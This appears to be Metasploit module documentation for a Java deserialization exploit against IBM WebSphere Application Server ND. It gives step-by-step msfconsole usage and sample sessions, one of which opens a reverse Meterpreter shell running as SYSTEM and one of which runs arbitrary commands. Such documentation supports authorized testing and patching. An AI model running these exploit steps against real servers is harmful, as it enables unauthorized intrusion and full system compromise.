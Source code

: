 ## Vulnerable Application

This module exploits the lack of proper authentication checks in IBM Websphere Application Server ND that allows for the execution of an
arbitrary command and upload of an arbitrary file as SYSTEM. The module serializes the required Java objects expected by the IBM Websphere server.

The module affects [IBM Websphere Application Server Network Deployment](https://www.ibm.com/support/knowledgecenter/en/SSAW57/mapfiles/product_welcome_wasnd.html).
The agent is installed on servers with the network deployment feature and listens on TCP port 11002,11004, or 11006. The vulnerability affects versions up to 9.0.0.11.

## Verification Steps

To use this exploit you will need access to IBM Websphere Application Server Network Deployment.

1. Install the IBM Websphere Application Server Network Deployment on a host.
2. Ensure that the service is running and listening on TCP port 11002, 11004, or 11006.
3. Launch `msfconsole`.
4. Load the module `use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce`.
5. Set the remote host ip to execute `set RHOSTS 192.168.162.133`.
6. Set the command to execute `set CMD "calc.exe"`.
7. Run the exploit `exploit`.

The result should be that calc.exe is executed on the target machine.

## Scenarios

The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode

This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell).

```
msf > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Sending payload: FOAFKqEH.exe
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.200:50575) at 2019-05-30 06:10:39 -0500
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
```

### Target 1: CMD
This target isn't a formal target. It was added to allow a user to execute commands entirely through the IBM Websphere Application Network Deployment Server remote administration feature. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.

```
msf > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set target 1
target => 1
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set payload cmd/windows/generic 
payload => cmd/windows/generic
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set cmd "ping -n 10 172.22.222.200"
cmd => ping -n 10 172.22.222.200
msf exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > run

[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Executing command: ping -n 10 172.22.222.200
[*] 172.22.222.200:11006 - Sending payload: uMuOTPtG.bat
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.
[*] Exploit completed, but no session was created.
```

